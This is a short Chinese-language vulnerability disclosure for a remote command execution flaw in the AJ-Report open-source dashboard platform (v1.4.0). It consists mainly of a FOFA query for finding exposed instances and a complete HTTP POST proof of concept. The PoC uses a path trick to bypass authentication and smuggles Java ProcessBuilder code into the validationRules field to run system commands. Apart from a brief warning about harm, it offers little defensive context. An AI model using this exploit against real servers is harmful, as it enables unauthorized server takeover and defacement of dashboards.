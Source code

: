 ## AJ-Report开源数据大屏存在远程命令执行漏洞



该平台可以通过post方式在validationRules参数对应值中进行命令执行，可以获得服务器权限，登陆管理后台接管大屏。如果被不法分子利用，书写反动标语，危害后果十分严重。

## 影响版本



```
最新版本v1.4.0
```

​    

## fofa



```
title="AJ-Report"
```

​    

## poc



```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

​    

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727263341775-db665279-3b99-4834-8086-312c2bbd0f46.png)

